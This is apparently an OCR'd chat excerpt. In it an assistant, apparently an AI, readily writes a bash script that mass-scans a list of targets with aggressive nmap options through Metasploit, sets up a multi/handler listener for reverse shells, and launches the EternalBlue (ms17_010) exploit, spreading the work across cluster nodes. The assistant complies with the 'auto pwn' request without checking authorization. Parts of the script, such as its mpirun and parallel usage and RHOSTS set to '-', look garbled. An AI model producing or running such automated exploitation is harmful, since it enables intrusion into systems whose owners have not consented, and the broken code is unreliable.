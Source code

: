 ```bash
# Log success
echo "Scan completed successfully. Results saved in results.csv"
echo "$(date): Scan completed successfully." >> $LOGFILE
```

This script includes all possible `db_nmap` arguments, such as `-sS` and `-sU` for TCP and UDP scanning, `-T4` for timing template, `-A` for aggressive scan options, `-O` for OS detection, `--script all` for running all Nmap scripts, `--min-hostgroup` and `--min-parallelism` for setting the minimum number of hosts to scan and the minimum number of parallel scans to run, and `-p-` for scanning all ports.



Mix it with auto pwn


Sure, here's an updated script that includes the use of AutoPwn module in Metasploit:

```bash
#!/bin/bash

# Define variables
METASPLOIT_JOB="exploit/multi/handler"
METASPLOIT_ARGS="set PAYLOAD <payload>; set LHOST <local_ip>; set LPORT <local_port>; set ExitOnSession false; set AutoRunScript <path_to_script>; exploit -j"
LOGFILE="scan.log"
ERRORFILE="scan_errors.log"

# Check for target file
if [ ! -f "$1" ]; then
  echo "Usage: $0 <target_file>"
  exit 1
fi

# set up the supercluster
mpirun -n <number_of_nodes> ssh <username>@<first_node> 'bash -s' < setup_node.sh

# scan targets with nmap and import results into Metasploit
msfconsole -q -x "db_nmap -iL $1 -sS -sU -T4 -A -O -p- --script all --min-hostgroup 96 --min-parallelism 96; exit"

# distribute target list across nodes
mpirun -n <number_of_nodes> parallel --sshloginfile <path_to_hostfile> --transfer --workdir $PWD "cat {} | parallel --pipe -j <number_of_jobs_per_node> msfconsole -q -x 'use $METASPLOIT_JOB ; $METASPLOIT_ARGS' > /tmp/\$(basename {}).csv 2> /tmp/\$(basename {}).err" :::: $1

# Check for errors
if [ $(find /tmp -name "*.err" | wc -l) -ne 0 ]; then
  echo "Errors occurred during the scan. See $ERRORFILE for details."
  find /tmp -name "*.err" -exec cat {} \; > $ERRORFILE
  exit 1
fi

# aggregate results
mpirun -n <number_of_nodes> ssh <username>@<first_node> 'cat /tmp/*.csv > results.csv'

# Check for results
if [ ! -f "results.csv" ]; then
  echo "No results file found. Check $LOGFILE and $ERRORFILE for details."
  exit 1
fi

# run AutoPwn module
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set LHOST <local_ip>; set PAYLOAD <payload>; set RHOSTS -; run; exit"

```